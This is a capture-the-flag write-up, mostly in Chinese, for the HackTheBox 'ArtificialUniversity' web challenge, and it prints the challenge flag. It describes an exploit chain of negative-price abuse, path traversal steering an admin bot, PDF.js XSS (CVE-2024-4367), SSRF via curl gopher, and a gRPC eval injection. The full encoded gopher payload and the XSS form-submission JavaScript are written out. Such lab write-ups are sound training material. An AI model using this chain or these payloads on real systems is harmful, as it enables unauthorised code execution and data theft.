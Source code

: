  the following part is ArtificialUniversity writeup
 to exploit the lab,modify exp.py according to the comment ,and run it
 
不得不说，这个确实是insane难度的challenge，复杂的一批，还有各种坑

step1：注册并登录
step2：注意到/checkout路由的四个参数可控，并且不提供product_id的时候generate_payment_link会使用你提供的price来创建product，我们让它是负的，后面有用
http://192.168.205.128:1337/checkout?title=aaa&user_id=2&price=-9999&email=aaa
step3：/checkout/success 路由是一个比较重要的路由，它会检查你的order_id中price是否<0(0是代码预先定义好的一个基准price,即amt_paid)
```python
if amt_paid >= order.price:
		db_session.mark_order_complete(order_id)
```

然后如果小于0，启动一个botrunner，它会模拟firefox浏览器发起身份为admin的登录，然后浏览器中会存储admin的session，之后这个bot会访问一个url，这个url是可
被我们控制的
client.get(f"http://127.0.0.1:1337/static/invoices/invoice_{payment_id}.pdf")中paymentid可控，用../可以返回并且访问admin路由用&a=来让'.pdf'成为无意义的请求参数。这个点我们可以用来引导bot访问/admin/view-pdf。注意，这里的访问局限于127.0.0.1:1337,并且通过bot访问是必须的环节，否则不会有合法session

step4：
view-pdf可以访问任意url的pdf，注意，从上一步的浏览器请求到这一步，我们始终在浏览器中，看到
```python
return send_file(pdf_data, mimetype="application/pdf", as_attachment=False, download_name="document.pdf")
```
attachment=false意味着浏览器会直接打开这个pdf，firefox在126版本一下存在一个pdf导致xss的CVE-2024-4367，dockerfile是125，所以可以利用pdf来触发xss，这个xss只有在firefox会被触发，并且必须是bot访问
有一些问题：不能用fetch或者xhr去发送cookie，因为httponly，所以不能以admin登录，另外也不能直接fetch /admin下的路由，因为你会发现firefox viewpdf触发xss的时候document.domain=pdf.js，所以你的fetch会被cors阻止发送cookie，无论你怎么设置fetch的参数。这意味着，我们只能使用form表单的，写个js自动提交到/admin路由，这种情况是会自动发送cookie的，区别于fetch，因此，用pdf触发xss后我们就可以让admin访问以下的路由
```python
@web.route("/admin/api-health", methods=["GET", "POST"])
def api_health():
	if not session.get("loggedin") or session.get("role") != "admin":
		return redirect("/")
		
	if request.method == "GET":
		return render_template("admin_api_health.html", title="Admin panel - API health", session=session)

	url = request.form.get("url")

	if not url:
		return render_template("error.html", title="Error", error="Missing URL"), 400

	status_code = get_url_status_code(url)
	return render_template("admin_api_health.html", title="Admin panel - API health", session=session, status_code=status_code)
```
    为什么是这个路由？因为get_url_status_code(url)中调用了命令行的curl，向我们提供的url参数发起请求，这个是我们ssrf的关键步骤。为什么要绕一步不直接在
view-pdf中让bot访问这个路由？注意，这个路由只接受post方法，要么fetch，要么form，只有xss做得到，其它的路由不存在我们控制bot以admin身份发送post到这个路由的能力。curl支持相当多的协议，其中就有大家都熟悉的gopher，利用gopher我们几乎就做出来这个题了。


    curl支持那么多协议，为什么只用gopher？直接file://行不行？这其实就是回显的问题，确实是可以访问的，但是我们看不到flag。想要在xss那一步用file://然后
outofband也是不行的，会被浏览器阻止访问本地文件。
    话说回来，怎么用gopher打？实际上作者留了后面eval在product_api的api.py中，其中给了 UpdateService和GenerateProduct，思路就是利用UpdateService向
self注入一个price_formula属性，然后触发generateproduct方法，触发eval。
    这里需要了解以下grpc协议，这是一个基于http2的远程方法调用，有点像java的rmi，服务端根据product.proto编译生成了两个文件product_xxxxx.py，这两个文件
同时被放在client，为的就是client能够识别正确的类型信息，并且知道怎么把需要发送的参数和方法序列化到tcp字节流当中。服务端的api.py就是注册了一个提供方法的
服务，client创建stub后利用服务端的方法名和相应的参数去调用相对应的方法。客户端实际上已经育一些路由访问了这些方法，但是，我们的第一步必须是给服务端的product对象添加一个price_formula，然后用generateproduct去eval它。DebugService调用了updateservice，当然，也可以直接调用updateservice，不过这两个方法
都是内部方法，不存在哪个路由可以直接调用的，即使是admin的路由。我们只能通过gopher去调用它，generateproduct可以用之前的方法直接让bot访问/admin/product-stream触发。
    现在，如何构造合适的tcp数据流是关键所在，也是最后一步。并没有支持http2的gopher的现成工具，人工去计算http2的字段是很复杂的，比http1要复杂的多，对我们
没有什么帮助，还极其容易出错。一个比较好的办法是wireshark抓包，然后抓取client http2的数据流，转化为字节数组并且用%编码，或者本地用nc在某个端口监听，去抓取字节发出去的grpc数据报。这里注意，grpc的协议中client发送完整http2数据后，server会返回一个随机的字节流，client要重复发送回去这个字节流才能得到响应，
但是在client发送http2数据后相应方法已经执行。gopher协议我们只能发一次数据，我们不能，但是也不需要获取响应，我们只需要eval执行我们的命令，把flag拷贝到
可读的位置，也就是eval('__import__("os").system("cp /flag* /app/store/application/static/flag.txt")'),就完成了最后一步。生成的数据流被放在gopher后面

这个是不会变的，我已经写好放下面了（建议自己尝试生成）
gopher://_PRI%20%2A%20HTTP%2F2.0%0D%0A%0D%0ASM%0D%0A%0D%0A%00%00%00%04%00%00%00%00%00%00%00%00%04%01%00%00%00%00%00%00Z%01%04%00%00%00%01%83%86E%9Ab%BB%0F%25%A4J%FA%EC%3C%96%91%3B%8Bgs%10%AC_%2Cv%CD%B8%B6w1%0BA%8B%A0%E4%1D%13%9D%09%B8%D8%00%D8%7F_%8B%1Du%D0b%0D%26%3DLMedz%95%9A%CA%C9m%941%DC%2B%BC%B8%94%9A%CA%C8%B4%C7%60%2B%B2%EA%E0%40%02te%86M%835%05%B1%1F%00%00d%00%01%00%00%00%01%00%00%00%00_%0A%5D%0A%0Dprice_formula%12L%0AJ__import__%28%22os%22%29.popen%28%22cp%20%2Fflag%2A%20%2Fapp%2Fstore%2Fapplication%2Fstatic%2Fflag.txt%22%29    

这个peiload应该被放在pdf中的url字段，被作为curl的参数，我在文件夹中也放了生成pdf的py代码和我生成的pdf，这个pdf是不会变的，可以直接用，生成方法：

```powershell
python genpdf.py "var form=document.createElement('form');form.action='http://127.0.0.1:1337/admin/api-health';form.method='post';var urlInput=document.createElement('input');urlInput.value='gopher://127.0.0.1:50051/_PRI%20%2A%20HTTP%2F2.0%0D%0A%0D%0ASM%0D%0A%0D%0A%00%00%00%04%00%00%00%00%00%00%00%00%04%01%00%00%00%00%00%00Z%01%04%00%00%00%01%83%86E%9Ab%BB%0F%25%A4J%FA%EC%3C%96%91%3B%8Bgs%10%AC_%2Cv%CD%B8%B6w1%0BA%8B%A0%E4%1D%13%9D%09%B8%D8%00%D8%7F_%8B%1Du%D0b%0D%26%3DLMedz%95%9A%CA%C9m%941%DC%2B%BC%B8%94%9A%CA%C8%B4%C7%60%2B%B2%EA%E0%40%02te%86M%835%05%B1%1F%00%00d%00%01%00%00%00%01%00%00%00%00_%0A%5D%0A%0Dprice_formula%12L%0AJ__import__%28%22os%22%29.popen%28%22cp%20%2Fflag%2A%20%2Fapp%2Fstore%2Fapplication%2Fstatic%2Fflag.txt%22%29';urlInput.name='url';form.appendChild(urlInput);document.body.appendChild(form);form.submit();"
```

（(tip:some versions of curl dont support null bytes %00）





























flag：HTB{ol4_t4_ch41n5_ol4_t4_ch41n5_l4mp0un_t4_d15m4nd14_4l1_day}
